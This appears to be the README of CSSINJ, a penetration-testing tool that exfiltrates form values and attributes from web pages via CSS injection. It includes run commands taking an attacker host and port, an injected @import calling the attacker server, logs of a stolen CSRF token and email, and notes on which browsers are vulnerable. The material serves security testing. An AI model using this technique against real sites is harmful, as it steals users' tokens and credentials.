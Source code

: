 ```yaml
---

# CSSINJ  

```
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|
```

## About  

**CSSINJ** is a penetration testing tool that exploits [**CSS injection vulnerabilities**](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/05-Testing_for_CSS_Injection) to exfiltrate sensitive information from web applications. This tool is designed for security professionals to assess the security posture of web applications by demonstrating how CSS can be used to extract data covertly.  


## Installation  

To install and set up **CSSINJ** from Source, run the following commands:  

```bash
git clone https://github.com/DonAsako/CSSinj.git
cd CSSinj
python3 -m venv venv  
source venv/bin/activate
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade build
python3 -m build
python3 -m pip install .
```

Now you’re ready to use **CSSINJ**! 🎯  

## Usage  

```bash
python3 -m cssinj inject [-h] -H HOSTNAME -p PORT -i IDENTIFIER
```

### Options  

| Option                 | Description                                 |
|------------------------|---------------------------------------------|
| `-h, --help`           | Show help message and exit                  |
| `-H, --hostname`       | Attacker hostname or IP address             |
| `-p, --port`           | Port number of the attacker                 |
| `-e, --element`        | HTML element to extract specific data       |
| `-a, --attribut`       | Specify an element Attribute Selector for exfiltration     |
| `-d, --details`        | Show detailed logs of the exfiltration process, including extracted data |

### Example  

#### Victim's View :
```html
<input type="text" id="username" value="admin" disabled>
<input type="email" id="email" value="admin@admin.XX" disabled>
<input type="text" class="csrf" value="MySecretAdminToken" hidden>
<img src="XXXXXXXXXXX.XX">
...
```

<style>
  @import url('//localhost:5005/start');
</style>
...
```

#### Using a specific CSS identifier : 

```bash
~ python3 CSSINJ.py inject -H 127.0.0.1 -p 5005 -e input
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 02:40:55] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-03-11 02:40:56] 🌐 Connection from ::1
[2025-03-11 02:40:56] ⚙️ ID : 1
[2025-03-11 02:40:56] ✅ [1] - The value exfiltrated from input is : MySecretAdminToken
[2025-03-11 02:40:56] ✅ [1] - The value exfiltrated from input is : admin@admin.XX
[2025-03-11 02:40:56] ✅ [1] - The value exfiltrated from input is : admin
```

#### Using a specific CSS attribute selector and a generic CSS identifier:

```bash
~ python3 CSSINJ.py -H 127.0.0.1 -p 5005 -e \* -a src
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 03:06:49] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-03-11 03:06:49] 🌐 Connection from ::1
[2025-03-11 03:06:49] ⚙️ ID : 1
[2025-03-11 03:06:49] ✅ [1] - The src exfiltrated from * is : XXXXXXXXXXX.XX
```

## Browser-Specific Behavior

The success of CSS injection attacks using @import depends on the browser's handling of CSS imports:
- Chromium-based browsers (Chrome, Edge, Brave, etc.) allow recursive CSS imports and will process the injected styles, making them vulnerable to exfiltration techniques using @import.

- Firefox, however, handles @import differently:
  - Unlike Chromium-based browsers, Firefox processes all @import rules before applying any styles.
  - As a result, the attack fails because the browser never processes the CSS selectors, preventing data exfiltration.
  - This behavior causes an infinite loop where the browser keeps waiting for a CSS update that never happens.

This difference in behavior makes Chromium-based browsers more susceptible to CSS injection exfiltration, while Firefox provides better protection against such attacks.

## Todo
- General : 
  - [ ] Add error Handler
  - [ ] Add test
  - [ ] Edit Terminal

- Injection : 
  - [x] Add injection parameters
  - [ ] Add an option to save results to a file
  - [ ] Allow multiple CSS selectors for simultaneous extraction
  - [ ] Add g all of the page
  - [x] Refract cssinjector.py
  - [ ] Add timeout


## Disclaimer  

This tool is intended **only for ethical hacking and security research**. **Unauthorized use on systems without explicit permission is illegal**. The developer **is not responsible** for any misuse of this tool.  

## Author  

**CSSINJ** was developed by **Asako**.  
